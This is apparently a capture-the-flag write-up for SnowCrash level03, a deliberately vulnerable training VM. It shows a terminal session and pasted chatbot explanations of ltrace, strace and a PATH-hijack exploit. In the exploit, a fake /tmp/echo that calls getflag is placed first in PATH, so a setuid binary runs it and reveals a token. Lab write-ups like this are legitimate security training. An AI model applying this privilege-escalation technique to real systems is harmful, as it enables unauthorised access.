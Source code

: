 # level03

level03@SnowCrash:~$ ls
level03
level03@SnowCrash:~$ 


level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff6e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                    = 2003
geteuid()                                    = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                       = 0
+++ exited (status 0) +++
level03@SnowCrash:~$ 


level03@SnowCrash:~$ echo "/bin/getflag" > /tmp/echo
level03@SnowCrash:~$ chmod +x /tmp/echo
level03@SnowCrash:~$ /bin/getflag 
Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :)
level03@SnowCrash:~$ export PATH=/tmp:$PATH
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus




`ltrace` is a debugging utility on Linux used to **trace library calls made by a program**, especially those to **shared libraries like the C standard library (`libc`)**.

### What `ltrace` Does:

* Monitors **function calls** to shared libraries.
* Shows **arguments passed** to those functions.
* Displays the **return values** of those calls.

### Example:

```bash
ltrace ls
```

This command might show output like:

```
__libc_start_main(0x401080, 1, 0x7ffd7c1e8a18, 0x402010, 0x402000 <...>) = 0
strlen("ls")                                = 2
malloc(16)                                  = 0x55b7a7b4b260
...
```

### When to Use `ltrace`:

* Debugging issues related to dynamic libraries.
* Understanding what library functions a program uses.
* Tracing how a program interacts with external APIs (e.g., `malloc`, `printf`, `open`, etc.).

### Difference from `strace`:

* `strace`: traces **system calls** (e.g., `read`, `write`, `open`).
* `ltrace`: traces **library function calls** (e.g., `malloc`, `printf`, `strcpy`).

---

### 🔧 **Command Used**:

```bash
strace ls
ltrace ls
```

---

## 🔍 `strace ls` Output (System Calls):

```text
execve("/bin/ls", ["ls"], 0x7ffe6c2f8f50 /* env */) = 0
brk(NULL)                               = 0x56359f8e6000
arch_prctl(ARCH_SET_FS, 0x7fd2a01ae540) = 0
openat(AT_FDCWD, ".", O_RDONLY|O_NONBLOCK|O_DIRECTORY|O_CLOEXEC) = 3
newfstatat(3, "", {st_mode=S_IFDIR|0755, ...}, AT_EMPTY_PATH) = 0
getdents64(3, 0x56359fae3e40 /* 5 entries */, 32768) = 160
write(1, "Desktop\nDocuments\nDownloads\n", 30) = 30
close(3)                                = 0
exit_group(0)                           = 0
```

**→ Shows kernel interactions like file opens, reads, and writes.**

---

## 🔍 `ltrace ls` Output (Library Calls):

```text
__libc_start_main(0x5631e12851a0, 1, 0x7fffd4881c38, 0x5631e1285320, 0x5631e1285310 <...>) = 0
strrchr("ls", '/')                      = NULL
setlocale(LC_ALL, "")                   = "en_US.UTF-8"
bindtextdomain("coreutils", "/usr/share/locale") = "/usr/share/locale"
textdomain("coreutils")                 = "coreutils"
opendir(".")                            = 0x564a74021c10
readdir(0x564a74021c10)                 = 0x564a74021e10
puts("Desktop")                         = 8
puts("Documents")                       = 9
...
```

**→ Shows calls to library functions like `puts`, `opendir`, and `setlocale`.**

---

### ✅ Summary:

| Tool     | Shows             | Use for                                      |
| -------- | ----------------- | -------------------------------------------- |
| `strace` | **System calls**  | Debugging kernel-level behavior, file access |
| `ltrace` | **Library calls** | Understanding dynamic library usage          |

Would you like a visual diagram showing the layers of calls (your app → libraries → kernel)?

You're on the right track — `ltrace` reveals that the vulnerable binary runs this line:

```
system("/usr/bin/env echo Exploit me")
```

The trick is that it's using `/usr/bin/env` to look for `echo` in your environment. That opens up a **classic environment path hijack**, because `env` searches for the command (`echo`) using the `PATH` variable.

---

## 🔓 Exploitation Strategy

We’ll **create a fake `echo` binary** that runs `getflag`, then **modify the `PATH`** so that the program runs **your fake `echo`** instead of the system one.

---

### ✅ Steps:

1. **Make a custom script that runs `getflag`**:

   ```bash
   echo "/bin/getflag" > /tmp/echo
   chmod +x /tmp/echo
   ```

2. **Change the `PATH` so your fake `echo` is found first**:

   ```bash
   export PATH=/tmp:$PATH
   ```

3. **Run the vulnerable program**:

   ```bash
   ./level03
   ```

---

### 🧠 Why This Works:

* `/usr/bin/env echo ...` means "search `PATH` for `echo`".
* By putting `/tmp` first in `PATH`, your custom script is run instead of `/bin/echo`.
* Your custom script just runs `getflag`.

---

Let me know if you want a one-liner version or a bash script to automate this.
